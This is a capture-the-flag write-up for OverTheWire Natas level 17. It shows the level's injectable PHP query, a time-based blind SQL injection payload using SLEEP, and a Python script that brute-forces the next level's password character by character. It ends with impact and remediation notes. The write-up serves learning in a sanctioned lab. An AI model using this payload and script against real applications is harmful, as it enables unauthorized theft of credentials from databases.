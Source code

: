 # [Over The Wire (natas)] – [[Platform](http://natas17.natas.labs.overthewire.org/)] – [09/25/2025]

## Objective
Find the password for the next Natas level by exploiting the vulnerability on this page.  

## Environment / Platform
- Platform: OverTheWire – Natas
- Level: [17]
- Difficulty: [Medium]

## Tools Used
- Chromium Browser
- Burp Suite (proxy + repeater)
- Python

## Login
1. Logged in with credentials:
   - **Username**: `natas17
   - **Password**: `XXXXXX`
  
2. Screenshot:
   ![alt text](image-25.png)
   
   - this prompted that I should check the sourcecode by clicking the link `http://natas17.natas.labs.overthewire.org/index-source.html`

3. Observed Page Content
   ```php
      /*
      CREATE TABLE `users` (
      `username` varchar(64) DEFAULT NULL,
      `password` varchar(64) DEFAULT NULL
      );
      */

      if(array_key_exists("username", $_REQUEST)) {
         $link = mysqli_connect('localhost', 'natas17', '<censored>');
         mysqli_select_db($link, 'natas17');

         $query = "SELECT * from users where username=\"".$_REQUEST["username"]."\"";
         if(array_key_exists("debug", $_GET)) {
               echo "Executing query: $query<br>";
         }

         $res = mysqli_query($link, $query);
         if($res) {
         if(mysqli_num_rows($res) > 0) {
               //echo "This user exists.<br>";
         } else {
               //echo "This user doesn't exist.<br>";
         }
         } else {
               //echo "Error in query.<br>";
         }

         mysqli_close($link);
      } else {
   ```
   - this roughly translates into 
  
   1. If the request contains a key "username" continue.
   
   2. Create a database connection using localhost and user natas17 and password.

   3. Set query variable = select all user where username is equal to the username in the request and password is the password in the request also.

   4. If the key "debug" in the GET route exists then print out "Executing query: ..."-

   5. The conditional logic for displaying the data has been annotated and will not render.

   6. Close the database connection.

   
4. Steps taken (blind SQL Injection):

   1. Since there will be no confirmation if the attempted password is in the database we can use a time-delay in the reponse to give confirmation. (Silence is louder than words.)

   2. `?username=natas18"%20AND%20IF((SELECT%20password%20FROM%20users%20WHERE%20username%3D%27natas18%27)%20LIKE%20BINARY%20%27{guess}%25%27,%20SLEEP(1),0)%20--%20` This will be used be cause it translate into `natas18" AND IF(    (SELECT password FROM users WHERE username='natas18') LIKE BINARY '{guess}%',SLEEP(1),0) -- `

   3. The attack will basically be that if the user exists in the database and have a password that starts with the sub-string we will sleep in the query for 1 second if not then "0". 

   4. I created a script that checks every index of the 32 alphanumeric and if the response takes longer than a second that would mean that the sleep instruction was followed. 


   ```python
      import requests
      from requests.auth import HTTPBasicAuth


      def main():
         # --- Configuration ---
         url = "http://natas17.natas.labs.overthewire.org/"
         auth = HTTPBasicAuth("natas17", "XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX")  # replace with actual
         charset = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789"

         password = ""  # will accumulate discovered characters

         # --- Loop through each position (1 to 32) ---
         while len(password) < 32:
            found = False
            for c in charset:
                  guess = password + c
                  
                  payload = f'{url}?username=natas18"%20AND%20IF((SELECT%20password%20FROM%20users%20WHERE%20username%3D%27natas18%27)%20LIKE%20BINARY%20%27{guess}%25%27,%20SLEEP(1),0)%20--%20'

                  # Send request
                  r = requests.get(payload, auth=auth)
                  td = r.elapsed
                  ms = td.total_seconds() * 1000

                  res_time = ms > 1000
                  if (res_time):
                     found = True
                     password += c

         return password
         

      if __name__ == "__main__":
         ans = main()
         print(f"\n[!] Full password: {ans}")

   ```
   
   5. This produced the flag.
   

---

🔑 **Why this works**: 

   - The application directly inserts user-supplied input into an SQL query without proper sanitization.

   - The code uses mysqli_query with a string built from $_REQUEST["username"], making it vulnerable to SQL injection.

   - Time-based blind SQL injection works because the attacker can detect valid conditions by measuring response delays (using SLEEP() in MySQL).

   - Lack of output for query results does not prevent the attack because timing differences act as a side channel.


---

💥 **Impact**

   - An attacker can retrieve sensitive information such as user passwords without authentication.

   - Full database enumeration is possible, including usernames and hashed or plaintext passwords.

   - Compromised credentials could lead to escalation to higher-level accounts or access to other systems if reused.

   - Confidentiality, integrity, and potentially availability of the database are at risk.

---
  
🛠️ **Remediation**

   - Use prepared statements (parameterized queries) instead of directly concatenating user input.

   - Sanitize and validate all input data before including it in SQL queries.

   - Limit database user privileges to only what is strictly necessary.

   - Monitor for abnormal query patterns and implement rate-limiting to detect automated attacks.

   - Consider adding web application firewalls (WAF) and logging to detect and respond to SQL injection attempts.